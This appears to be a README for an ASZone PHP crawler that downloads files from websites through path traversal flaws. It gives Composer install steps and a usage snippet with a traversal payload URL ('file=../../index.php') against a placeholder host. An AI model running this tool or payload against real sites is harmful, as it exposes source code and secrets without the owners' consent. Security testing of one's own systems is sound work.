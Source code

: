 # Crawler - Reading Static File

> ASZone - Crawler - Reading Static File

### Beta
> Reading Static File is a open source tool for reading static file / Path Director

## Instalation

The recommended way to install PHP Avenger is through
[Composer](http://getcomposer.org).

```bash
# Install Composer
curl -sS https://getcomposer.org/installer | php
```

Next, run the Composer command to install the latest beta version of Php Avenger SH:

```bash
php composer.phar require aszone/crawler/download-file-by-lfd
```

## Basic Usage
```bash
$command=array();
$crawler = new DownloadByLocalFileDownload($command);
$url="http://www.xxxx.com/download.php?file=../../index.php";
$crawler->getAllFiles($url);

```

## Help and docs
* [Documentation](http://phpavenger.aszone.com.br).
* [Examples](http://phpavenger.aszone.com.br/examples).
* [Videos](http://youtube.com/aszone).
* [Steakoverflow](http://phpavenger.aszone.com.br).

